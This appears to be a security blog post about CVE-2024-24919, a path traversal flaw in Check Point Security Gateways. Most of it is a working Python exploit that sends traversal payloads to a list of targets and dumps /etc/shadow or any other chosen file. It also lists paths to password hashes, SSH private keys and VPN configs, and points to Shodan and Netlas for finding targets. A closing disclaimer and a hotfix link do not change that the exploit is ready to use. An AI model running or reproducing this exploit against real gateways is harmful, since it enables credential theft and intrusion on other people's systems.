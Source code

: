 ```yaml
---
title: CVE-2024-24919
description: Allows an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with remote Access VPN or Mobile Access Software Blades.
author: BW
date: 2024-06-12 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
  path: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
  lqip: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
---
```

Proof of Concept python script that exploits what's essentially a path traversal issue.

Below are a list of files that are vulnerable - including the shadow file which contains the hashed passwords.
1. ../../../../../../../etc/fstab
2. ../../../../../../../etc/shadow
3. ../../../../../../../sysimg/CPwrapper/SU/Products.conf
4. ../../../../../../../config/db/initial
5. ../../../../../../../etc/passwd
6. ../../../../../../../home/*/.ssh/authorized_keys
7. ../../../../../../../opt/checkpoint/conf/
8. ../../../../../../../etc/ssh/sshd_config
9. ../../../../../../../etc/vpn/vpn.conf
10. ../../../../../../../home/*/.ssh/id_rsa

### The PoC Script
```python
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

vuln = ['root:', 'nobody:']

def make_request(url, payload=None, headers=None):
    try:
        response = requests.post(url, data=payload, headers=headers, verify=False)
        if response.ok:
            for word in vuln:
                if word in response.text:
                    print(f"[+] {url} is vulnerable")
                    if payload and payload.startswith("aCSHELL/../../../../../../../etc/shadow"):
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      etc/shadow found:               ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    elif payload:
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      Your file was found:            ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    return
            print(f"[-] {url} is not vulnerable")
        else:
            print(f"[-] {url} responded with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Error making request to {url}: {e}")

def main():
    payload = "aCSHELL/../../../../../../../etc/shadow"
    parser = argparse.ArgumentParser(description="CVE-2024-24919 POC")
    parser.add_argument("-l", metavar='filename', type=str, help="File containing list of HTTP/HTTPS targets")
    parser.add_argument("-f", metavar='file', type=str, help="File to read for custom payload (May break on multiple targets with unknown files.)")
    args = parser.parse_args()

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-User": "?1",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Te": "trailers",
        "Connection": "close"
    }

    payload_base = "aCSHELL/../../../../../../../{}"

    if args.f:
        payload = payload_base.format(args.f)

    if args.l:
        try:
            with open(args.l, 'r') as file:
                urls = file.readlines()
                for url in urls:
                    url = url.strip()
                    if url.startswith('http://') or url.startswith('https://'):
                        make_request(url + '/clients/MyCRL', payload=payload, headers=headers)
                    else:
                        print(f"Skipping invalid URL: {url}")
        except FileNotFoundError:
            print(f"Error: File '{args.l}' not found.")
    else:
        print("Please provide a file containing list of HTTP/HTTPS targets using -l option.")

if __name__ == "__main__":
    main()
```
{: file='exploit.py'}

### Finding targets

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/netlas.png){: width="972" height="589" .w-75 .normal}

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/shodan.png){: width="972" height="589" .w-75 .normal}

### Example of usage

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/usage.png){: width="972" height="589" .w-75 .normal}

### Example of output

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/output.png){: width="972" height="589" .w-75 .normal}

> This is for educational purposes. Only try this on systems you own. Please don't do anything illegal.
{: .prompt-danger }


Check Point released a hotfix for this, you can read more about it here: <https://support.checkpoint.com/results/sk/sk182336>
